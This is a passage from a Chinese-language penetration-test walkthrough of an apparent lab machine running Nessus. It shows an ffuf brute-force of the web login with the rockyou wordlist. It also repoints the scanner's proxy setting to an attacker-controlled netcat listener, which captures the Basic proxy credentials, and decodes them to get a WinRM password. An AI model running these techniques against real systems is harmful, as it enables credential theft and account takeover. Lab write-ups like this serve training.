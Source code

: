 ```html
POST sessio/n HTTP/1.1
Host: 192.168.56.156:8834
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:134.0) Gecko/20100101 Firefox/134.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br, zstd
Content-Type: application/json
X-API-Token: b5c724c0-00ce-4710-9794-59362a41137f
Content-Length: 39
Origin: https://192.168.56.156:8834
Connection: keep-alive
Referer: https://192.168.56.156:8834/
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0
{"username":"jose","password":"123456"}

```
ffuf 爆破
```bash
ffuf -X POST -u 'https://192.168.56.156:8834/session' -d {"username":"jose","password":"FUZZ"}' -w /usr/share/wordlists/rockyou.txt
```

![09ibvzgi2q1g](/img/user/24-渗透/HMV/assets/7uartc0kko.png)
成功爆破出密码是
`tequiero`
登录后台在 ProxyServer 这里可以看到密码
![2v10epcykxi](/img/user/24-渗透/HMV/assets/i38aqp1tptp.png)
f12 看一下密码
发现密码是 ``
![w03pzu93u49](/img/user/24-渗透/HMV/assets/4h5viy4mmst.png)
### 6.1. 代理获取密码
我们修改这个Host 与 ip  改成我们kali的。
并修改 `Auth Method` 改成 `BASIC `
![t0dk9ozjfrn](/img/user/24-渗透/HMV/assets/3do4cjbbfht.png)
然后kali监听，在点击 `Test Proxy Server` 这样可以获取到密码
```bash
┌──(root㉿kali)-[/home/kali/hmv/Nessus]
└─# nc -lvnp 1234
listening on [any] 1234 ...
connect to [192.168.56.6] from (UNKNOWN) [192.168.56.156] 49758
CONNECT plugins.nessus.org:443 HTTP/1.1
Proxy-Authorization: Basic bmVzdXM6WiNKdVhIJHBoLTt2QCxYJm1WKQ==
Host: plugins.nessus.org
Connection: keep-Alive
User-Agent: Nessus/10.7.3
Content-Length: 0
Proxy-Connection: Keep-Alive

┌──(root㉿kali)-[/home/kali/hmv/Nessus]
└─# echo 'bmVzdXM6WiNKdVhIJHBoLTt2QCxYJm1WKQ==' |base64 -d
nesus:Z#JuXH$ph-;v@,X&mV)                

```
### 6.2. winrm连接
获取到 `nesus` 用户的密码 `Z#JuXH$ph-;v@,X&mV)`
